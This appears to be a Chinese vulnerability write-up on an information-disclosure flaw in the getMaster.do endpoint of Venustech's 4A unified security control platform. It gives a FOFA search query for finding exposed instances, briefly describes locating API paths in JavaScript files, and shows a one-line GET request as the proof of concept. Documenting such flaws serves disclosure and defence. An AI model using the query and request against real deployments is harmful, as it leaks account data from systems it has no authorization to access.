



# 启明星辰 4A统一安全管控平台 getMaster.do 信息泄漏漏洞

## 漏洞描述

启明星辰 4A统一安全管控平台 getMaster.do接口 信息泄漏漏洞

## 漏洞影响

```
启明星辰 4A统一安全管控平台
```

## FOFA

```
title="4A统一安全管控平台"
```

## 漏洞复现

登陆页面


可能的黑盒测试思路

在js文件中翻阅api接口



访问后返回功能接口地址



继续访问，信息泄露



验证POC

```
GET /accountApi/getMaster.do
Host:X
```


python批量poc

```
暂无
```


